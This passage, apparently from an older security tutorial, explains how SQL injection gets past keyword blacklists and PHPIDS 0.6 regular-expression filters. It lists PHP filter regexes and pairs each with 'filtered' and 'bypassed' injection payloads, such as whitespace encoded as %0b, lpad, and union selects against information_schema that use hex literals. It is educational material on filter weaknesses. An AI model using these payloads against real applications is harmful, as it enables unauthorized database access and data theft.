 
		Keyword filer: 		and, or, union, where, limit, group by, select, ', hex, substr
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr)/i', $id)
		Filtered injection:	1 || substr(user,1,1) = lower(conv(11,10,36))
		Bypassed injection:	1 || lpad(user,7,1)
		----------------------------------------------------------------------


		Keyword filer: 		and, or, union, where, limit, group by, select, ', hex, substr, white space
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
		Filtered injection:	1 || lpad(user,7,1)
		Bypassed injection:	1%0b||%0blpad(user,7,1)
		----------------------------------------------------------------------


		From the above examples, it can be seen that there are a number of SQL statements used for bypassing the black list although the black list contains many keywords and functions. 
	Furthermore, there are a huge SQL statements, that are not on the mentioned examples, that can be used to bypass the black list.

		Creating a bigger black list is not a good idea to protect your own websites. Remember, the more keywords and functions filtering, the less user friendly.


	+++++++++++++++++++++++++++++++++++++++++++++++
	 [0x01b] - Bypass Regular Expression Filtering
	+++++++++++++++++++++++++++++++++++++++++++++++

		Regular expression filtering is a better solution to prevent SQL injection than keywords and functions filtering because it is used pattern matching to detect attacks. Valid users are allowed to submit more flexible input to the server. 
	However, many regular expression can also be bypassed. The following examples illustrate injection scripts that used to bypass regular expressions in the OpenSource PHPIDS 0.6.

	PHPIDS generally blocks input containing = or ( or ' following with any a string or integer e.g. 1 or 1=1, 1 or '1', 1 or char(97). However, it can be bypassed using a statement that does not contain =, ( or ' symbols. 

	[Code]---------------------------------------------------------------		
	filtered injection:		1 or 1 = 1
	Bypassed injection:		1 or 1
	[End Code]----------------------------------------------------------- 

	[Code]---------------------------------------------------------------		
	filtered injection:		1 union select 1, table_name from information_schema.tables where table_name = 'users'
	filtered injection:		1 union select 1, table_name from information_schema.tables where table_name between 'a' and 'z'
	filtered injection:		1 union select 1, table_name from information_schema.tables where table_name between char(97) and char(122)
	Bypassed injection:		1 union select 1, table_name from information_schema.tables where table_name between 0x61 and 0x7a
	Bypassed Injection:		1 union select 1, table_name from information_schema.tables where table_name like 0x7573657273
	[End Code]----------------------------------------------------------- 
